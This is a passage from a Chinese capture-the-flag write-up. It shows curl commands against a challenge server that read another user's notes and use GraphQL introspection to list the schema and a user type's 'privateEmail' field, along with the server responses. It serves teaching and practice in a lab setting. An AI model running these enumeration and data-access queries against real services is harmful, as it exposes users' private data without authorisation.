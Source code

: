 怎么发送呢？可以用 Burp Suite 改包，但是我更喜欢直接用 `curl`，所以下面以此为例子。使用浏览器检查元素复制为 cURL 命令之后修改（去掉不需要的部分），可以得到下面的命令：

```console
$ curl 'http://202.38.93.111:15001/graphql' -X POST \
  -H 'Content-Type: application/json' \
  -H 'Cookie: <你自己得到的 Cookie>' \
  --data-raw '{"query":"{ notes(userId: 2) { id\ncontents }}"}'
```

改一下 `--data-raw` 后面的东西就行。

```console
$ curl 'http://202.38.93.111:15001/graphql' -X POST \
  -H 'Content-Type: application/json' \
  -H 'Cookie: <你自己得到的 Cookie>' \
  --data-raw '{"query":"{ __schema {types { name }}}"}'
{"data":{"__schema":{"types":[{"name":"Query"},{"name":"GNote"},{"name":"Int"},{"name":"String"},{"name":"GUser"},{"name":"Boolean"},{"name":"__Schema"},{"name":"__Type"},{"name":"__TypeKind"},{"name":"__Field"},{"name":"__InputValue"},{"name":"__EnumValue"},{"name":"__Directive"},{"name":"__DirectiveLocation"}]}}}
```

可以看到两个画风不太一样的类型：`GNote` 和 `GUser`。来更进一步看看 `GUser` 的详细信息吧。

```graphql
{
  __type(name: 'GUser') {
    name
    kind
    fields {
      name
      type {
        name
        kind
      }
    }
  }
}
```

```console
$ curl 'http://202.38.93.111:15001/graphql' -X POST \
  -H 'Content-Type: application/json' \
  -H 'Cookie: <你自己得到的 Cookie>' \
  --data-raw '{"query":"{__type(name: \"GUser\") {name kind fields {name type {name kind}}} }"}'
{"data":{"__type":{"name":"GUser","kind":"OBJECT","fields":[{"name":"id","type":{"name":"Int","kind":"SCALAR"}},{"name":"username","type":{"name":"String","kind":"SCALAR"}},{"name":"privateEmail","type":{"name":"String","kind":"SCALAR"}}]}}}
```

这里已经可以看到 `privateEmail` 是 `GUser` 类型的 field 了，也是我们需要找的东西之一。但是已有的信息还不足以构建完整的查询（如果还是猜不出来正确的 query）。怎么办呢？可以试试 `__schema` 下面的 `queryType`:

```graphql
{
  __schema {
    queryType {
      name
    }
  }
}
```
